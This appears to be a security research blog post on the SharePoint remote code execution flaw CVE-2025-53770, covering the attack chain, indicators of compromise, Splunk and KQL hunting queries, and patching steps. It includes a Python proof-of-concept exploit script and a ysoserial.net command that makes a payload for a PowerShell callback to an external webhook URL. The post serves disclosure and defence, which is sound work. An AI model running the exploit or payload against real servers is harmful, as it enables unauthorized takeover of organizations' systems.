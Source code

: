 ```yaml
---
title: "CVE-2025-53770 – Microsoft SharePoint RCE"
date: 2025-07-25 23:30:00 +0300
categories: [Research]
tags: [Web, CVE, SharePoint, CVE-2025-53770, RCE]
description: "A zero‑day remote code execution vulnerability in Microsoft SharePoint (on‑premises)."
---
```


## Overview
In mid‑July 2025, Microsoft disclosed **CVE‑2025‑53770**, a **zero‑day remote code execution** vulnerability in **on‑premises SharePoint**. This flaw, when chained with **CVE‑2025‑53771**, enables **unauthenticated attackers** to fully compromise vulnerable servers over the internet. 

The exploitation campaign, dubbed **"ToolShell"**, has been observed **actively targeting governments, energy, education, and telecom sectors worldwide**. If you run **SharePoint Server (2016/2019/Subscription)** and expose it to the internet, you need to **patch now**.

### Impact at a glance
- **Attack Vector:** Remote, unauthenticated  
- **Impact:** Full RCE (IIS worker context)  
- **Exploitation:** Active (confirmed by MS + CISA)  
- **Ease:** Exploitable with a single HTTP POST  

---

## Vulnerability Details

The issue lies in **unsafe deserialization** of crafted `__VIEWSTATE` data in the **ToolPane.aspx** component. When combined with a **referer spoof** (CVE‑2025‑53771), attackers can reach this endpoint **without authentication**, feed it a malicious payload, and gain **remote code execution** as the **w3wp.exe** (IIS worker) process.

### The attack chain:
1. **Authentication bypass**: Use `Referer: /_layouts/SignOut.aspx` to bypass security checks on `/layouts/15/ToolPane.aspx?DisplayMode=Edit`.
2. **Malicious ViewState**: Send a **signed or forged ViewState** payload containing serialized gadget chains (crafted via tools like **ysoserial.net**).
3. **RCE**: SharePoint deserializes the payload and executes attacker‑controlled code.
4. **Persistence**: Attackers drop a web shell (e.g., `spinstall0.aspx`) and steal **machine keys** for future signed payload generation.

### Visualized:
```
[ Attacker ]
     |
     v
POST /_layouts/15/ToolPane.aspx
Referer: /_layouts/SignOut.aspx
     |
     v
[ SharePoint Server ]
Deserializes malicious __VIEWSTATE
     |
     v
[ RCE: Attacker code runs as w3wp.exe ]
```

---

## Why It Matters

- **No authentication required**: Works from the internet if the server is exposed.  
- **Full takeover**: Post‑exploitation, attackers can upload shells, pivot laterally, and persist even after patching by abusing stolen machine keys.  
- **Exploited in the wild**: Microsoft, CISA, and Rapid7 have confirmed **active exploitation** in multiple regions.  

---

## Affected Versions

- **SharePoint Server 2016** (before KB5002760)  
- **SharePoint Server 2019** (before KB5002754)  
- **SharePoint Subscription Edition** (before KB5002768)  

(**SharePoint Online is not affected**.)

---

## Indicators of Compromise

- Requests to:  
  ```
  /_layouts/15/ToolPane.aspx?DisplayMode=Edit
  ```
  with `Referer: /_layouts/SignOut.aspx`.
- Dropped files:  
  ```
  spinstall0.aspx
  spinstall1.aspx
  ```
- Suspicious process chains:  
  ```
  w3wp.exe → cmd.exe → powershell.exe -EncodedCommand
  ```
- Known attacker IPs:  
  ```
  107.191.58.76, 104.238.159.149, 96.9.125.147
  ```

---

## Detection & Hunting

### Splunk (IIS Logs)
```spl
index=iis sourcetype="ms:iis:auto" 
cs_uri_stem="/_layouts/15/ToolPane.aspx"
cs_referer="/_layouts/SignOut.aspx"
| stats count by clientip, cs_user_agent, _time
```

### KQL (Microsoft Sentinel)
```kql
W3CIISLog
| where csUriStem == "/_layouts/15/ToolPane.aspx"
| where csReferer == "/_layouts/SignOut.aspx"
| summarize count() by cIP, userAgent, TimeGenerated
```

---

## Proof‑of‑Concept (Python)

A Python PoC is provided to test for CVE‑2025‑53770.

```py
#!/usr/bin/env python3
# CVE-2025-53770 – SharePoint Unauthenticated RCE PoC
# Author: 0xH3G4Z1
# Usage: python3 exploit.py

import requests
import urllib3

urllib3.disable_warnings()

# === CONFIG ===
TARGET = "https://your-sharepoint-server"  # <--- CHANGE THIS
ENDPOINT = "/_layouts/15/ToolPane.aspx?DisplayMode=Edit"
FULL_URL = TARGET.rstrip("/") + ENDPOINT

VIEWSTATE_PAYLOAD = (
    "" # <--- CHANGE THIS
)

HEADERS = {
    "Referer": "/_layouts/SignOut.aspx",
    "Content-Type": "application/x-www-form-urlencoded"
}

DATA = {
    "__VIEWSTATE": VIEWSTATE_PAYLOAD,
    "__EVENTTARGET": "",
    "__EVENTARGUMENT": ""
}

def exploit():
    print(f"[+] Sending payload to {FULL_URL}")
    try:
        r = requests.post(FULL_URL, headers=HEADERS, data=DATA, verify=False, timeout=10)
        print(f"[+] Response: {r.status_code} ({len(r.content)} bytes)")
        if r.status_code == 200:
            print("[+] If vulnerable, the payload was processed (check your target).")
        elif r.status_code == 403:
            print("[-] Access forbidden (patched or blocked).")
        else:
            print("[-] Exploit may not have succeeded.")
    except Exception as e:
        print(f"[!] Error: {e}")

if __name__ == "__main__":

    exploit()
```

### Generating a payload:

To test whether the target processes ViewState and executes commands, you can generate a callback payload with `ysoserial.net`.  
This example makes a PowerShell web request to a [Webhook.site](https://webhook.site) URL you control:

```bash 
ysoserial.exe -p ObjectDataProvider -o base64 -g WindowsIdentity -c powershell -c "iwr 'https://webhook.site/3a5dbeec-f481-4515-b827-52c69a41b4d8'"
 > payload.txt
```
Then replace `__VIEWSTATE` with the contents of payload.txt.

---

## Mitigation & Hardening

1. **Patch immediately**:
    - [KB5002768](https://support.microsoft.com/help/5002768) (Subscription Edition)
    - [KB5002754](https://support.microsoft.com/help/5002754) (2019)
    - [KB5002760](https://support.microsoft.com/help/5002760) (2016)
2. **Rotate machine keys** (twice): Update the `machineKey` in `web.config` to invalidate stolen signing keys.
3. **Restrict access** to `/layouts/15/ToolPane.aspx` to **internal networks only**.
4. **Enable IIS request filtering** to block oversized or suspicious ViewState payloads.
5. **Enable Defender AV + AMSI integration** for real‑time scanning of SharePoint components.
6. **Hunt for compromise**: Review IIS logs for ToolPane.aspx requests with unusual referers or large ViewState data.

---

## Key Takeaways

- CVE‑2025‑53770 is being actively exploited.  
- The attack is trivial once discovered (POST + spoofed Referer).  
- Patching alone is not enough — **rotate machine keys** to invalidate stolen ViewState signing keys.  
- Monitor for **web shells** (`spinstall0.aspx`, etc.) and suspicious ToolPane.aspx requests.  

---

**References**:  
- [Microsoft MSRC](https://msrc.microsoft.com/blog/2025/07/customer-guidance-for-sharepoint-vulnerability-cve-2025-53770/)  
- [Rapid7 Blog](https://www.rapid7.com/blog/post/etr-zero-day-exploitation-of-microsoft-sharepoint-servers-cve-2025-53770/)  
- [CISA KEV](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)  

